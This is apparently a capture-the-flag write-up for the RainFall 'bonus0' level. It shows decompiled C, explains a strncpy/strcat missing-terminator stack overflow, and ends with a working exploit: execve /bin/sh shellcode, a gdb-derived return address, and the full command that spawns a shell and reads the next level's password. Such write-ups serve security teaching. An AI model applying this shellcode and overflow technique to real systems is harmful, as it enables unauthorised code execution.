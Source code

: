 ## Step 1: Static & Dynamic Analysis

```c
080484b4    char* p(char* buff, char* tild)
080484b4    {
080484b4        puts(tild);
080484e1        void tmp;
080484e1        read(0, &tmp, 4096);
080484fc        *(uint8_t*)strchr(&tmp, '\n') = 0;
0804851d        return strncpy(buff, &tmp, 20);
080484b4    }

0804851e    char* pp(char* str_main)
0804851e    {
0804851e        void buff_arg1;
08048534        p(&buff_arg1, " - ");
08048547        void buff_arg2;
08048547        p(&buff_arg2, " - ");
08048559        strcpy(str_main, &buff_arg1);
08048574        int32_t i = 0xffffffff;
08048577        char* str_main_ptr = str_main;
08048577        
08048579        while (i)
08048579        {
08048579            bool cond:0_1 = 0 != *(uint8_t*)str_main_ptr;
08048579            str_main_ptr = &str_main_ptr[1];
08048579            i -= 1;
08048579            
08048579            if (!cond:0_1)
08048579                break;
08048579        }
08048579        
08048588        *(uint16_t*)(~i - 1 + str_main) = 32;
080485a3        return strcat(str_main, &buff_arg2);
0804851e    }

080485a4    int32_t main(int32_t argc, char** argv, char** envp)
080485a4    {
080485a4        void str_main;
080485b4        pp(&str_main);
080485c0        puts(&str_main);
080485cb        return 0;
080485a4    }
```

### Explanation

The vulnerability in the binary comes from the lack of `NULL` terminated character when managing input buffers. 

The function `p()` reads data from stdin into a buffer using `read()` without checking its inputs length. 

The first 20 bytes are copied into the buffer however no NULL characters are set into the buffer if the size of the input is equal or greater than 20.

Next the `pp()` function concatenates both buffers using `strcat()` but since the first buffer is not NULL terminated, `strcat()` will continue to read memory past `buff_arg1`, causing the buffer overflow.

To proceed, we are first going to fill the first buffer with 20 characters 'A' followed by the shellcode.

```bash
python -c 'print(("A" * 20) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")'
```

Then, in the second input, we are going to use an offset of 9 characters 'B' to perfectly jump on the `eip` of the `main()` followed by the address of the first byte of the shellcode to jump on it and spawn a bash.

```bash
(gdb) x/16xw $esp
0xbfffe670:	0xbffff6b8	0xbfffe680	0x00000014	0x00000000
0xbfffe680:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe690:	0x41414141	0x6850c031	0x68732f2f	0x69622f68
0xbfffe6a0:	0x89e3896e	0xb0c289c1	0x3180cd0b	0x80cd40c0
```

```bash
python -c 'print(("B" * 9) + "\xbf\xff\xe6\x94"[::-1] + "CCCCCCC")'
```

## Step 2: Exploiting the Binary
```bash
bonus0@RainFall:~$ (python -c 'print(("A" * 20) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")' ; python -c 'print(("B" * 9) + "\xbf\xff\xe6\x94"[::-1] + "CCCCCCC")' ; cat) | /home/user/bonus0/bonus0

% cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```